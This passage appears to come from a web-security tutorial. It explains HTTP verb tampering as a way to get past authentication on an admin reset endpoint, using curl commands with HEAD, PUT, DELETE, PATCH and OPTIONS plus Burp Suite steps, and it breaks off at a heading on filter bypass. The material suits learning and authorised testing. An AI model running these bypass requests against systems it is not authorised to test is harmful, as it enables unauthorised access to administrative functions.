 #### Method 1: HEAD Request Bypass

**Theory:** HEAD requests often bypass authentication while still executing server-side code

```bash
# Original GET request (blocked)
curl -i http://target.com/admin/reset.php
# Response: 401 Unauthorized

# HEAD request bypass
curl -i -X HEAD http://target.com/admin/reset.php
# Response: 200 OK (empty body, but function executed)
```

#### Method 2: Alternative HTTP Methods

**Testing different verbs:**
```bash
# Test PUT method
curl -i -X PUT http://target.com/admin/reset.php

# Test DELETE method  
curl -i -X DELETE http://target.com/admin/reset.php

# Test PATCH method
curl -i -X PATCH http://target.com/admin/reset.php

# Test OPTIONS method
curl -i -X OPTIONS http://target.com/admin/reset.php
```

### Burp Suite Methodology

**Step 1: Intercept Original Request**
```http
GET /admin/reset.php HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0...
```

**Step 2: Change Request Method**
- Right-click intercepted request → "Change Request Method"
- Manually edit: `GET` → `HEAD` or other method

**Step 3: Forward and Observe**
- Monitor response codes
- Check if functionality executed (empty response = success for HEAD)

---

## 2. Bypassing Security Filters

### Attack Scenario
